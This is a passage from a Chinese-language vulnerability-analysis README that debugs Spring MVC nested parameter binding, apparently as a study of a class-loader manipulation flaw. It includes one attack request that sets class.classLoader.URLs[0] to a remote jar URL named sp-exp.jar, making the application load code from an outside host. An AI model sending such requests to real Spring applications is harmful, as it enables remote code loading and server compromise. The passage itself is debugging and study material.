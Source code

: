 ![image-20220722215431376](README/image-20220722215431376.png)

`pet.name=test`说明 Spring MVC 支持多层嵌套的参数绑定，`pet.age=10`没有成功赋值是因为没有相应的set方法，但`children`没有相应的set方法也可以成功赋值。

### 漏洞调试

在`org.springframework.beans.AbstractPropertyAccessor#setPropertyValues(org.springframework.beans.PropertyValues, boolean, boolean)`下断点，请求`/test?class.classLoader.URLs[0]=jar:http://docker.for.mac.host.internal:8000/sp-exp.jar!/'`

![image-20220722220439235](README/image-20220722220439235.png)

一直跟到设置`URLs[0]`的地方：
